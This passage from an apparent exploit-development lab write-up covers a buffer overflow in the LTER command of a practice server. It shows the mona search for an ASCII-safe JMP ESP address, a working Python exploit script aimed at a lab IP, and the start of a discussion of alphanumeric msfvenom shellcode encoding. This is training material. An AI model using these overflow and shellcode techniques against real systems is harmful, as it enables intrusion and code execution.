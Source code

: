We now have to find a `JMP ESP` in the `essfunc.dll` but we have to keep in mind the character restrictions. If we were to input a harcoded address with a bad character, it would get corrupted and we wouldn't end up hitting our `JMP ESP`. Let's see if mona can help us avoid bad characters. 

A quick search gets us to the [Corelan mona explainer](https://www.corelan.be/index.php/2011/07/14/mona-py-the-manual/) and we see that there is an option to specify criteria for the types of pointers that mona brings back. This is so sick!

![](/assets/images/CTP/corelanbaby.JPG)

Let's use the command `!mona jmp -r esp -cp ascii` and see what mona comes back with. 

![](/assets/images/CTP/monaowns.JPG)

Let's use the first one: `62501203`. Remember this has to be input into our script in reverse order because of our endianness. Our exploit code now looks like this:
```python
#!/usr/bin/python

import socket
import os
import sys

#jmp esp: 62501203

host = "192.168.1.201"
port = 9999

buffer = "A" * 2002
buffer += "\x03\x12\x50\x62"
buffer += "C" * (3000 - len(buffer))

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((host,port))
print s.recv(1024)
s.send("LTER /.../" + buffer)
print s.recv(1024)
s.close()
```

## ASCII Shellcode

We know our shellcode cannot have anything over `7f` in it which is the last ASCII character so we have to have an 'alpha numeric' shellcode. After some digging, I found this explainer from [Offensive Security](https://www.offensive-security.com/metasploit-unleashed/alphanumeric-shellcode/) which describes how the process works. 

We have to use the `-e x86/alpha_mixed` option when we generate our payload in `msfvenom`; however, this also will not cut it. If we do this, we end up with this character set prepended to our shellcode every single time: `\x89\xe2\xdb\xc3\xd9\x72`. According to Offensive Security, *the opcodes...at the beginning of the payload...are needed in order to find the payloads absolute location in memory and obtain a fully position-independent shellcode. Once our shellcode address is obtained through the first two instructions, it is pushed onto the stack and stored in the ECX register, which will then be used to calculate relative offsets. However, if we are somehow able to obtain the absolute position of the shellcode on our own and save that address in a register before running the shellcode, we can use the special option BufferRegister=REG32 while encoding our payload.*
